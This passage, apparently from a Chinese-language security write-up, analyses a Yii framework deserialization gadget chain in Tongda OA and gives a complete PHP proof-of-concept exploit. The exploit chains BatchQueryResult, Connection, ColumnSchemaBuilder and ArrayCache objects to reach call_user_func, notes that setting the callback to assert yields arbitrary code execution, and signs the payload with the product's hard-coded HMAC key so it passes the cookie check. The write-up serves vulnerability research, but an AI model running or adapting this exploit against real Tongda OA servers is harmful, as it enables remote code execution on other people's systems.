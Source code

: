 这里可以看到有 call\_user\_func 的调用，get 的参数$key 的值是由 getTypeCategory 中的$this->type 提供的，这个是完全可控的，而 buildKey 对于全是字母数字的长度 32 以下的则不做任何修改。getValue 中的$this->\_cache 也是完全可控的，所以这也就说明 get 函数中的$value 可控，并且在 call\_user\_func 中的$this->serializer 也是在反序列化的时候完全可控，这样这里的 call\_user\_func 就导致了任意代码执行。由于目标是通达 OA，php 版本为 php5，这里用$this->serializer 赋值为 assert 就可以类似 eval 的进行任意代码执行。

#### poc

下面是完整的 poc

```php
<?php
//仅用于安全研究与授权测试，使用此漏洞造成的任何攻击影响均与本文作者无关。
namespace yii\db {
    class ColumnSchemaBuilder {
        protected $type = 'x';
        public $categoryMap;

        function __construct($categoryMap) {
            $this->categoryMap = $categoryMap;
        }
    }

    class Connection {
        public $pdo = 1;

        function __construct($dsn) {
            $this->dsn = $dsn;
        }
    }

    class BatchQueryResult {
        private $_dataReader;

        function __construct($dataReader) {
            $this->_dataReader = $dataReader;
        }
    }
}

namespace yii\caching {
    class ArrayCache {
        public $serializer;
        private $_cache;

        function __construct($function, $parameter) {
            $this->serializer = [1 => $function];
            $this->_cache = ['x' => [$parameter, 0]];
        }
    }
}
namespace{
    $function = 'var_dump';
    $parameter = 123;

    $cache = new \yii\caching\ArrayCache($function, $parameter);
    $csb = new \yii\db\ColumnSchemaBuilder($cache);
    $conn = new \yii\db\Connection($csb);
    $query = new \yii\db\BatchQueryResult($conn);
    $data=(serialize($query));
    $data=hash_hmac('sha256', $data, 'tdide2').$data; //通达 OA 的 cookie 反序列化校验
    echo urlencode($data);
}
```

